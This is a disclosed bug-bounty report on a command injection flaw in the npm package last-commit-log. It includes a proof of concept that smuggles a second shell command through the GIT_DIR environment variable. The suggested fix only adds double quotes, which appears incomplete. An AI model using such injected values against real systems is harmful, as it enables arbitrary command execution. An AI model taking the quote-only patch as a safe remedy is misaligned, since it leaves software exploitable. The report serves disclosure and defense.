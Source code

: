 # [last-commit-log] Command Injection

## Report Details
- **Report ID**: 881713
- **URL**: https://hackerone.com/reports/881713
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-24T11:57:12.726Z
- **Disclosed**: 2020-11-29T11:06:29.469Z

## Reporter
- **Username**: bilk0h
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report `Command Injection` in `last-commit-log`
It allows `execution of arbitrary commands`

# Module

**module name:** `last-commit-log`
**version:** `last-commit-log@3.0.4`
**npm page:** `https://www.npmjs.com/package/last-commit-log`

## Module Description

Node.js module to get the last git commit information - mostly to be used by CI/CD and building phase.

## Module Stats

[3,253] downloads in the last week

# Vulnerability

The value of the GIT_DIR env variable is added to the command here on [line 10](https://github.com/node-modules/last-commit-log/blob/master/index.js#L10) and here on [line 25](https://github.com/node-modules/last-commit-log/blob/master/index.js#L25) and finally the command is executed on [line 36](https://github.com/node-modules/last-commit-log/blob/master/index.js#L36).

## Vulnerability Description

## Steps To Reproduce:
> npm i last-commit-log
>cat > test.js
const LCL = require('last-commit-log');
const lcl = new LCL('.'); // or `new LCL(dir)` dir is process.cwd() by default
>lcl
  .getLastCommit()
  .then(commit => console.log(commit));

Export malicious GIT_DIR string
>export GIT_DIR=". ;touch xxx;"

Run
>node test.js


{F840963}

## Patch

Fix: enclose --git-dir flag in quotes on line 10 like so
```this.gitDirStr = GIT_DIR ? `--git-dir="${GIT_DIR}/.git"` : '';```

## Supporting Material/References:

- [OPERATING SYSTEM VERSION] Ubuntu 18.04.4 LTS
- [NODEJS VERSION] v14.0.0
- [NPM VERSION] 6.14.4

# Wrap up

- I contacted the maintainer to let them know: [Y/N] No
- I opened an issue in the related repository: [Y/N] No

## Impact

Ability to run any command available for attacker.

## Attachments
- last-commit-log-demo.gif
